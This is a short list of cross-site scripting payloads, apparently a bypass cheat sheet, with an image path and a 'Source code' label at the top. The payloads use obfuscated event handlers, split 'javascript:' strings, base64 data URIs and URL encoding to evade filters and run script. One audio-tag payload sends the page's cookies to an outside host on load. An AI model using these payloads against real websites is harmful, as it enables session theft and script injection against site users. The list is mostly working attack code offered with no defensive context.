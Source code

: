 <iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';>
<iframe/onload="var b = 'document.domain)'; var a = 'JaV' + 'ascRipt:al' + 'ert(' + b; this['src']=a">
<audio autoplay onloadstart=this.src='hxxps://msf.fun/?c='+document["cook"+"ie"]' src=x>
<img/src=q onerror='new Function`al\ert\`1\``'>
<object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='></object>
<svg onload\r\n=$.globalEval("al"+"ert()");>
[1].map(alert)   or    (alert)(1)
<"><details/open/ontoggle="jAvAsCrIpT&colon;alert&lpar;/xss-by-tarun/&rpar;">XXXXX</a>
[1].find(confirm)
<svg/onload=self[`aler`%2b`t`]`1`>
%22%3E%3Cobject%20data=data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==%3E%3C/object%3E
'-[document.domain].map(alert)-'